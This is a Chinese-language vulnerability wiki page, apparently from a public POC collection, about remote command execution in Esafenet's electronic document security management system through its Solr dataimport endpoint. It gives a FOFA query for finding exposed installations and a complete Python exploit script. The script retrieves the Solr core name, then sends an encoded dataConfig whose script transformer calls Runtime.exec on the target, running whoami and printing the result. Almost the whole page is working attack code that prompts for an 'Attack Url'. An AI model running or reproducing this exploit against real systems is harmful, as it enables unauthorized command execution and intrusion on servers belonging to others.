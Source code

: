 FOFA
----

    title="电子文档安全管理系统"

漏洞利用
--------

先獲取 core name

訪問路徑

    /solr/admin/cores

POC
---

    import requests
    import sys
    import random
    import re
    import base64
    import time
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
        print('+  \033[34mTitle  : 亿赛通 电子文档安全管理系统 dataimport 远程命令执行漏洞            \033[0m')
        print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
        print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        vuln_url = target_url + "/solr/admin/cores"
        headers = {
            "Content-Type": "application/x-www-form-urlencoded",
        }
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
            print("\033[36m[o] 正在请求 {}/solr/admin/cores.... \033[0m".format(target_url))
            if 'responseHeader' in response.text and response.status_code == 200:
                result = re.search(
                    r'<str name="name">([\s\S]*?)</str><str name="instanceDir">', response.text, re.I)
                core_name = result.group(1)
                print("\033[36m[o] 获取core_name : {} \033[0m".format(core_name))
                POC_2(target_url, core_name)
            else:
                print("\033[31m[x] 请求失败 \033[0m")
                sys.exit(0)

        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)

    def POC_2(target_url, core_name):
        cmd = "whoami"
        vuln_url = target_url + "/solr/{}/dataimport?command=full-import&verbose=false&clean=false&commit=false&debug=true&core=tika&name=dataimport&dataConfig=%0A%3CdataConfig%3E%0A%3CdataSource%20name%3D%22streamsrc%22%20type%3D%22ContentStreamDataSource%22%20loggerLevel%3D%22TRACE%22%20%2F%3E%0A%0A%20%20%3Cscript%3E%3C!%5BCDATA%5B%0A%20%20%20%20%20%20%20%20%20%20function%20poc(row)%7B%0A%20var%20bufReader%20%3D%20new%20java.io.BufferedReader(new%20java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(%22{}%22).getInputStream()))%3B%0A%0Avar%20result%20%3D%20%5B%5D%3B%0A%0Awhile(true)%20%7B%0Avar%20oneline%20%3D%20bufReader.readLine()%3B%0Aresult.push(%20oneline%20)%3B%0Aif(!oneline)%20break%3B%0A%7D%0A%0Arow.put(%22title%22%2Cresult.join(%22%5Cn%5Cr%22))%3B%0Areturn%20row%3B%0A%0A%7D%0A%0A%5D%5D%3E%3C%2Fscript%3E%0A%0A%3Cdocument%3E%0A%20%20%20%20%3Centity%0A%20%20%20%20%20%20%20%20stream%3D%22true%22%0A%20%20%20%20%20%20%20%20name%3D%22entity1%22%0A%20%20%20%20%20%20%20%20datasource%3D%22streamsrc1%22%0A%20%20%20%20%20%20%20%20processor%3D%22XPathEntityProcessor%22%0A%20%20%20%20%20%20%20%20rootEntity%3D%22true%22%0A%20%20%20%20%20%20%20%20forEach%3D%22%2FRDF%2Fitem%22%0A%20%20%20%20%20%20%20%20transformer%3D%22script%3Apoc%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cfield%20column%3D%22title%22%20xpath%3D%22%2FRDF%2Fitem%2Ftitle%22%20%2F%3E%0A%20%20%20%20%3C%2Fentity%3E%0A%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E%0A%20%20%20%20%0A%20%20%20%20%20%20%20%20%20%20%20".format(core_name, cmd)
        files = {
            'stream.body': '''<?xml version="1.0" encoding="UTF-8"?>
            <RDF>
            <item/>
            </RDF>'''
        }
        try:
            print("\033[36m[o] 正在执行 whoami ... \033[0m".format(target_url))
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, files=files, verify=False, timeout=5)
            cmd_response = re.search(
                    r'documents"><lst><arr name="title"><str>([\s\S]*?)</str></arr></lst>', response.text, re.I)
            cmd_response = cmd_response.group(1)
            if response.status_code == 200 and cmd_response:
                print("\033[36m[o] 命令响应为:\n{} \033[0m".format(cmd_response))

        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m")



    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        POC_1(target_url)

參考
----

<https://github.com/PeiQi0/PeiQi-WIKI-POC/blob/PeiQi/PeiQi_Wiki/Web%E5%BA%94%E7%94%A8%E6%BC%8F%E6%B4%9E/%E4%BA%BF%E8%B5%9B%E9%80%9A/%E4%BA%BF%E8%B5%9B%E9%80%9A%20%E7%94%B5%E5%AD%90%E6%96%87%E6%A1%A3%E5%AE%89%E5%85%A8%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F%20dataimport%20%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md>